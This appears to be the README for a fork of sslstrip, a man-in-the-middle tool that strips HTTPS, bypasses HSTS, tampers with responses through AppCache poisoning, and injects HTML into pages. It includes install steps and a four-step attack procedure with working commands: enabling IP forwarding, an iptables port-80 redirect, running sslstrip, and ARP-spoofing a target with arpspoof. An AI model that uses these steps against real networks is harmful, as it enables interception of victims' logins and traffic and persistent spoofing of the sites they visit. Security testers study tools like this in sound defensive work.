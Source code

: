 sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping 
attacks with the new feature to avoid HTTP Strict Transport Security (HSTS) protection mechanism. by:Leonardo Nve

This fork can also perform response tampering attacks. (by Koto [Krzysztof Kotowicz])

One prepared example of tampering attack is HTML5 AppCache poisoning attack that places the 
modified responses in browsers long-lasting HTML5 AppCache so that the spoofing continues
even after the victim is no longer MITMed. This functionality has been added by Krzysztof Kotowicz
<kkotowicz at gmail dot com>

Option: -t <config>, --tamper <config>    Enable response tampering with settings from <config>.
Example: sslstrip -t app_cache_poison/config.ini


This fork can also inject code into HTML pages using a text file only. (by xtr4nge based on Kane Mathers commit)

Option: -i , --inject                     Inject HTML code.
Example: sslstrip -i inject.txt


It requires Python 2.5 or newer, along with the 'twisted' python module.

Installing:
	* Unpack: tar zxvf sslstrip-0.5.tar.gz
	* Install twisted:  sudo apt-get install python-twisted-web
	* (Optionally) run 'python setup.py install' as root to install, 
	  or you can just run it out of the directory.  

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the 
	command-line options.

	The four steps to getting this working (assuming you're running Linux) 
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
	
	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

More Info:
	http://www.thoughtcrime.org/software/sslstrip/
	http://blog.kotowicz.net/2010/12/squid-imposter-phishing-websites.html
